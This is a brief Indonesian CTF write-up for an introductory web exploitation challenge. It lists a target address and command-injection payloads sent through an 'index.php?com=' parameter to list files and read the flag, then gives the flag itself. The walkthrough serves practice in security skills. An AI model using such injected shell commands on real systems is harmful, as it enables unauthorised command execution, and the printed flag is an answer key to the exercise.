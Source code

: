 Mimin sudah buatkan kategori tentang Pawned versi Web Exploitasi. Silahkan di coba nihh

Link : http://103.157.96.13:5551/index.php

Payload
```
index.php?com=ls
index.php?com=cat flag
```

Flag:
```
CTFR{h3ll0_4nd_w3llc0m3_1n_th15_c4t3g0ry}
```